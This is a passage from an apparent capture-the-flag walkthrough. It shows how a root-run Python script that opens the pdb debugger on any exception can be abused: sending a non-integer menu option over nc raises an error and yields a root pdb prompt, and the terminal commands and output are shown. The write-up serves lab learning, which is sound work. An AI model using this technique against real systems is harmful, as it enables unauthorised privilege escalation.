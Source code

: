 
### Exploit

The problem in this script is in how it handles errors. There’s an `except`
block for any exception that calls the Python Debugger, `pdb`:

    
    
    except Exception as e:
        print(e)
        pdb.post_mortem(e.__traceback__)
    

`pdb` is great, but it will allow the user interacting with it to run
arbitrary Python commands. So if I can make the script throw an exception, I
can run commands as root.

The obvious place to generate an exception is here:

    
    
    option = int(clientsock.recv(1024).strip())
    

My input is passed to `int()`. If I give it something that isn’t an integer,
Python will raise a `ValueError` exception.

I’ll start the listener again as root:

    
    
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:11563
    

Now I’ll connect, give the password, and give a non-integer as the menu
option:

    
    
    user@forge:~$ nc 127.0.0.1 11563
    Enter the secret passsword: secretadminpassword
    Welcome admin!
    
    What do you wanna do: 
    [1] View processes
    [2] View free memory
    [3] View listening sockets
    [4] Quit
    0xdf
    

This terminal just hangs. Back in the other, there’s an error dump and a `pdb`
prompt:

    
    
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:11563
    invalid literal for int() with base 10: b'0xdf'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb)
    